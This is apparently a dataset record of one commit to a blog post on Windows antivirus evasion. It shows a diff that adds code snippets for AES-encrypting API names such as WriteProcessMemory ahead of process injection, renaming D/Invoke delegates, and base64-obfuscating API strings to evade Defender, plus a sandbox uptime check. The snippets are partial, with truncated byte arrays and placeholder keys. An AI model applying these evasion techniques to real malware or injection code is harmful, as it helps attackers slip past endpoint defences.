

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2021-03-01-Windows-Evasion.md, in a window 1280 px wide and 1400 px high, scrolled down 6119 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-03-01-Windows-Evasion.md

````diff
--- a/_posts/2021-03-01-Windows-Evasion.md
+++ b/_posts/2021-03-01-Windows-Evasion.md
@@ -129,15 +129,101 @@ signtool sign /v /f SPC.pfx <executable>
 
 ## Add AES String Encryption
 
-2) `Add AES paylod Encryption`
+## 1) AES String Encryption
+
+`Add AES paylod Encryption`
+
+First of all we need the function to apply AES encryption/decryption
+
+```cpp
+
+//AES ENC
+int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
+        HCRYPTPROV hProv;
+        HCRYPTHASH hHash;
+        HCRYPTKEY hKey;
+
+        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
+                return -1;
+        }
+        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
+                return -1;
+        }
+        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
+                return -1;
+        }
+        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
+                return -1;
+        }
+
+        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
+                return -1;
+        }
+
+        CryptReleaseContext(hProv, 0);
+        CryptDestroyHash(hHash);
+        CryptDestroyKey(hKey);
+
+        return 0;
+}
+```
+
+We then need to declare our encptyted WIN API function:
+
+```cpp
+unsigned char sWriteProcessMemory[] = { 0xac, 0x40, 0xc4, 0xf9, 0x13, .... };
+```
+
+To generate the encrypted function use the imported python scritp (add link to github)
+
+```py
+c=aesenc("WriteProcessMemory\x00","addyourkey")
+print('payload[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in c) + ' };')
+payload[] = { 0x6, 0xea, 0x85, 0x3e, ..... };
+```
 
 
-<p align="center">
-  <img src="/assets/posts/2021-03-01-Windows-Evasion/strcs.JPG">
-</p>
+We will then decrypt the function pointer before injecting our malocious code.
+
+```cpp
+AESDecrypt((char *) sWriteProcessMemory, sizeof(sWriteProcessMemory), key, sizeof(key));
+pWriteProcessMemory = GetProcAddress(GetModuleHandle("kernel32.dll"), sWriteProcessMemory);
+```
 
 
-__Note:__ A basic c# base64 string obfuscation
+In order to evade defender it is possible to change delegate names and implement base64 encoding of API strings
+
+
+#### 2) Change of delegate names
+
+Intended D/Invoke way:
+```cpp
+[UnmanagedFunctionPointer(CallingConvention.StdCall)]
+delegate IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);
+```
+
+Obfuscated way:
+```cpp
+[UnmanagedFunctionPointer(CallingConvention.StdCall)]
+delegate IntPtr OpPr(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);
+```
+
+#### Change of API method pointer query
+
+Intended D/Invoke way:
+```cpp
+var pointer = Generic.GetLibraryAddress("kernel32.dll", "OpenProcess");
+```
+Obfuscated way:
+```cpp
+string op = "T3BlblByb2Nlc3M="; // echo -n "OpenProcess" | base64
+byte[] openc = System.Convert.FromBase64String(op);
+string opdec = Encoding.UTF8.GetString(openc);
+var pointer = Generic.GetLibraryAddress("kernel32.dll", opdec);
+```
+
+
+
 
 ## Anti analysis defenses
 
@@ -164,7 +250,7 @@ __IMG 1:__ Checking CPU
 
 __IMG 2:__ Checking RAM
 
-```cpp
+```	cpp
 	ULONGLONG uptime = GetTickCount64() / 1000;
 	if (uptime < 1200) return 0; //20 minutes
 ```
````
